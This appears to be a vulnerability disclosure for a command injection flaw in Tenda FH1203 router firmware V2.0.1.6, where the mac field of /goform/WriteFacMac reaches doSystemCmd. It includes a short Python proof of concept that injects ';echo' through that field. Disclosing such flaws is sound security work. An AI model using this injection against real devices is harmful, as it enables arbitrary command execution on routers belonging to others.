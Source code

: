 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v2` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.

![image-20240319225415852](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225415852.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hello'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320003842782](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320003842782.png)

